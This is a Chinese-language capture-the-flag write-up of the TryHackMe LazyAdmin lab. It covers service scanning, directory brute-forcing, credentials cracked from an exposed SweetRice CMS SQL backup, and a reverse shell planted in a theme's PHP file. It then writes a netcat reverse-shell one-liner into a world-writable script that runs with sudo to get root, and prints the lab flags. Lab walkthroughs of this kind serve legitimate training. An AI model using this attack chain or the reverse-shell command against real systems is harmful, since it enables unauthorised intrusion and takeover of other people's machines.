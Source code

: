 # 服务发现
```
┌──(root💀kali)-[~/tryhackme/LazyAdminFinal]
└─#  nmap -sV -Pn 10.10.113.182 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-23 22:02 EDT
Nmap scan report for 10.10.113.182
Host is up (0.37s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.23 seconds
```

# 目录爆破
```
┌──(root💀kali)-[~/dirsearch]
└─#  python3 dirsearch.py -u http://10.10.113.182 -e* -t 100                                                                                                                                                                           130 ⨯

 _|. _ _  _  _  _ _|_    v0.3.8
(_||| _) (/_(_|| (_| )

Extensions: * | HTTP method: get | Threads: 100 | Wordlist size: 6100

Error Log: /root/dirsearch/logs/errors-21-09-23_22-07-17.log

Target: http://10.10.113.182

[22:07:18] Starting: 
[22:07:39] 301 -  316B  - /content  ->  http://10.10.113.182/content/                                             
[22:07:42] 200 -   11KB - /index.html                                                                          

```

只有一个content目录，打开是一个```SweetRice```cms介绍页，继续爆破content目录
```
┌──(root💀kali)-[~/dirsearch]
└─#  python3 dirsearch.py -u http://10.10.113.182/content -e* -t 100 -w /usr/share/wordlists/Web-Content/directory-list-lowercase-2.3-medium.txt

 _|. _ _  _  _  _ _|_    v0.3.8
(_||| _) (/_(_|| (_| )

Extensions: * | HTTP method: get | Threads: 100 | Wordlist size: 207627

Error Log: /root/dirsearch/logs/errors-21-09-23_22-58-30.log

Target: http://10.10.113.182/content

[22:58:30] Starting: 
[22:58:31] 200 -    2KB - /content/
[22:58:34] 301 -  323B  - /content/images  ->  http://10.10.113.182/content/images/
[22:58:40] 301 -  319B  - /content/js  ->  http://10.10.113.182/content/js/
[22:58:44] 301 -  320B  - /content/inc  ->  http://10.10.113.182/content/inc/
[22:58:47] 301 -  319B  - /content/as  ->  http://10.10.113.182/content/as/
[22:58:48] 301 -  324B  - /content/_themes  ->  http://10.10.113.182/content/_themes/
[22:58:49] 301 -  327B  - /content/attachment  ->  http://10.10.113.182/content/attachment/

```

在```http://10.10.113.182/content/inc/mysql_backup/mysql_bakup_20191129023059-1.5.1.sql```找到备份的mysql语句，暴露了cms表名，一个登录凭证
```
用户名：manager
密码：42f749ade7f9e195bf475f37a44cafcb
```

md5密码破解出来是：```Password123```


```http://10.10.113.182/content/as/```是登陆页面

在```/content/license.txt```和```/inc/lastest.txt```验证cms的版本号是1.5.1，在kali搜索这个版本号的cms漏洞
```
┌──(root💀kali)-[~]
└─#  searchsploit SweetRice 1.5.1
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
SweetRice 1.5.1 - Arbitrary File Download                                                                                                                                                                 | php/webapps/40698.py
SweetRice 1.5.1 - Arbitrary File Upload                                                                                                                                                                   | php/webapps/40716.py
SweetRice 1.5.1 - Backup Disclosure                                                                                                                                                                       | php/webapps/40718.txt
SweetRice 1.5.1 - Cross-Site Request Forgery                                                                                                                                                              | php/webapps/40692.html
SweetRice 1.5.1 - Cross-Site Request Forgery / PHP Code Execution                                                                                                                                         | php/webapps/40700.html
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

上传脚本需要一个登录凭证，使用上面找到的```manager:Password123```，使用40716.py攻击脚本，但是貌似上传不了文件


登录后台，在Theme,选择Footer section template，直接编辑php源码写反弹shell，访问```http://10.10.113.182/content/_themes/default/foot.php```成功反弹到shell，拿到user.txt
```
┌──(root💀kali)-[~/tryhackme/LazyAdminFinal]
└─#  nc -lnvp 1234                                      
listening on [any] 1234 ...
connect to [10.13.21.169] from (UNKNOWN) [10.10.113.182] 46142
Linux THM-Chal 4.15.0-70-generic # 79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 06:50:08 up  1:48,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ cd /home
$ ls
itguy
$ cd itguy
$ ls
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
backup.pl
examples.desktop
mysql_login.txt
user.txt
$ cat user.txt
THM{63e5bce9271952aad1113b6f1ac28a07}
```

在同目录有一个backup.pl文件，源码内容是执行一个copy.sh文件
而copy.sh是可以编辑的
两个文件所有者是root，如果可以以root的身份执行一个```/etc/copy.sh```批处理文件，我们就可以使用该sh文件来提升到root
```
$ cat backup.pl
# !/usr/bin/perl

system("sh", "/etc/copy.sh");
$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.13.21.169 4242 >/tmp/f
$ ls -alh /etc/copy.sh
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
```

# 写shell
```echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.13.21.169 4242 >/tmp/f" > /etc/copy.sh```

# 切换tty,查看sudo -l，www-data正好可以用root权限执行/home/itguy/backup.pl
```
$ python -c 'import pty; pty.spawn("/bin/sh")'
$ sudo -l
sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
$ sudo /usr/bin/perl /home/itguy/backup.pl
sudo /usr/bin/perl /home/itguy/backup.pl

```

# 与此同时另起一个端口监听，拿到root反弹shell和root.txt
```
┌──(root💀kali)-[~]
└─#  nc -lnvp 4242                                                                                                                                                                                                                       1 ⨯
listening on [any] 4242 ...
connect to [10.13.21.169] from (UNKNOWN) [10.10.113.182] 33518
#  id
uid=0(root) gid=0(root) groups=0(root)
#  cat /root/root.txt
THM{6637f41d0177b6f37cb20d775124699f}

```